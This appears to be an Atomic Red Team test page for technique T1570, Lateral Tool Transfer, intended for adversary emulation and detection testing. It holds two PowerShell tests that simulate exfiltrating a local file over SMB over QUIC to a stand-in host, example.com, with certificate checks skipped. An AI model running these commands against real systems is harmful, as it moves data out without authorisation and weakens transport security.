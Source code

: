 ```yaml
---
tags: [T1570, atomic_test]
filename: "[[T1570|T1570 - Lateral Tool Transfer]]"
---
```

# T1570 - Lateral Tool Transfer

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)
Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)
Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```






<br/>

